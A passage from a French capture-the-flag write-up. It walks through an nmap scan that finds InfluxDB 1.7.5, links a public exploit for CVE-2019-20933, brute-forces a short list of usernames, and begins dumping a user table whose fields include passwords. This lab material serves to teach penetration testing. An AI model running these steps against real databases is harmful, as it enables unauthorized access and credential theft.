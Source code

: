 ```
aze: /file /root/root.txt aze
[SYSTEM] You did provide the wrong password
aze:
```

## **INFLUXDB**

```
❯ nmap -sC -sV 127.0.0.1 -p 8086
Starting Nmap 7.92 ( https://nmap.org ) at 2021-10-25 21:40 CEST
Nmap scan report for arch (127.0.0.1)
Host is up (0.00011s latency).

PORT     STATE SERVICE VERSION
8086/tcp open  http    InfluxDB http admin 1.7.5
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
```
Nous trouvons rapidement une exploit compatible avec notre version de influxdb.

[https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933)

L'exploit a besoin d'une liste de user, nous prenons naturellement tout les users que nous avons croiser sur la box.

```
patrick
catherine
root
admin
```

```
Start username bruteforce
[x] patrick
[x] catherine
[x] root
[v] admin
```

Nous avons access a la base de donnée influxdb.
Nous pouvons maintenant dumper la table.

```
[devzat] Insert query (exit to change db): show field keys;
{
    "results": [
        {
            "series": [
                {
                    "columns": [
                        "fieldKey",
                        "fieldType"
                    ],
                    "name": "user",
                    "values": [
                        [
                            "enabled",
                            "boolean"
                        ],
                        [
                            "password",
                            "string"
                        ],
                        [
                            "username",
                            "string"
```
